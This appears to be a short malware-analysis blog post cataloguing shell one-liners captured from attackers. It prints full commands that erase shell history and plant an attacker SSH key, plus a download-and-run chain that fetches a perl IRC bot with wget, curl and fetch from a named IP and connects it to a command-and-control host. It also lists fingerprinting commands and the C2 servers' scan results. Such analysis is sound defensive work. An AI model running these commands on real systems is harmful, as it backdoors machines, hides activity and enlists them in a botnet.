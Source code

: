 ```yaml
---
title: Malware Shell Oneliners
published: true
description: Several command oneliner tricks used by malware.
---
```


# Command line tricks used by malware.

## 1. Processor cores
```bash
cat /proc/cpuinfo | grep name | wc -l
```
I found this oneliner actually cool, it prints the number of processor cores you have. 

## 2. Cleaning history and backdooring device
```bash
uname -a;
unset HISTORY HISTFILE HISTSAVE HISTZONE HISTORY HISTLOG WATCH;
history -n;
export HISTFILE=/dev/null;
export HISTSIZE=0;
export HISTFILESIZE=0;
cd;
mkdir .ssh;
rm -rf .ssh/authorized_keys;
touch .ssh/authorized_keys;
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEAvN5GkpS25Z9eA2bARaXTVfVN2m/N5V5ddOTyVPftA3ljorQitmh1pyuZDty9oTWF+J0cOtGBvRaQ7NvZCaDC2q6QR0iMOfq7zs+4bl8WO8UnaQcVVIBeEt3YPo8PXwVm5fR4wgoq9SZp29/2jFz0UmAOhiUyImh9/P7jFWqpv3gSxZ8neq+4pSCUfE24OGiFBpJGkAE+wMmJcBX0WjFfjedcbBs1FO/C+x8WY9bFkQ3NwwjVbh3c3mYy9zqdPhm6GI/heVAZUWSKHausOwb+Rem+eKhkrKvoeteqJXEIrlLbHyRHn+12nN/qgG5kIcICv4TRD59GHMYZH3ILngyFJQ==' >> .ssh/authorized_keys;cd
```

This code blob actually was one long line, it does several things:
* Checks operating system
* Clears and disables shell history
* Clears old ssh public keys and pushes his own

### 3. Fingerprinting a system
```bash
1) uname -n -s -r -v;         # Full name in specific order 
3) uname -a & lscpu;          # Prints full name and proc information. 
                              # Symbol '&' forces first command to migrate to another 
                              # process which purpose is unclear to me, might be a bug.
4) uname -snrvo; uptime -p;   # Full name in specific order and time since system start
5) uname -a ; lscpu;          # Prints full name of OS including kernel version
6) uname;                     # Prints you the name of OS (ex: Linux)
7) cat /proc/cpuinfo;         # Info about processor 
8) free -m;                   # How much free disk space is left
```

### 4. Removing other potential malware and install his own
```bash
killall -9 perl;
cd /var/tmp/ ; 
cd /tmp/ ; 
rm -rf ssh1.txt ; 

wget http://185.234.217.21/ssh1.txt ; 
mv ssh1.txt wget.txt ; 

perl wget.txt 193.169.254.11; 
lwp-download http://185.234.217.21/ssh1.txt ; 
mv ssh1.txt lynx.txt ; 
perl lynx.txt 193.169.254.11;
fetch http://185.234.217.21/ssh1.txt ; 
mv ssh1.txt fetch.txt ; 
perl fetch.txt 193.169.254.11; 
curl -O http://185.234.217.21/ssh1.txt ; 
mv ssh1.txt curl.txt ; 
perl curl.txt 193.169.254.11 ; 
rm -rf ssh1.txt wget.txt lynx.txt fetch.txt curl.txt
```
This oneliner tries to download and later run perl bot in several methods using wget, lwp-download, fetch, curl.
Then connects to CnC server which is located in 193.169.254.11.



### 5. Command and control servers
185.234.217.21:
  Server location: Ireland
  Hosting:
    ssh1.txt - main perl IRC bot script
    Polish google phishing page
  Nmap scan:
    21/tcp   open     ftp
    22/tcp   open     ssh
    80/tcp   open     http
    1723/tcp filtered pptp


 193.169.254.11:
    Server location: Poland
    Hosting:
      Several IRC servers for botnet CnC
    Nmap scan:
      22/tcp    open     ssh
      80/tcp    open     http
      81/tcp    open     hosts2-ns
      111/tcp   open     rpcbind
      143/tcp   open     imap
      443/tcp   open     https
      1723/tcp  filtered pptp
      2222/tcp  open     EtherNetIP-1
      6667/tcp  open     irc
      8080/tcp  open     http-proxy
      8443/tcp  open     https-alt
      10000/tcp open     snet-sensor-mgmt






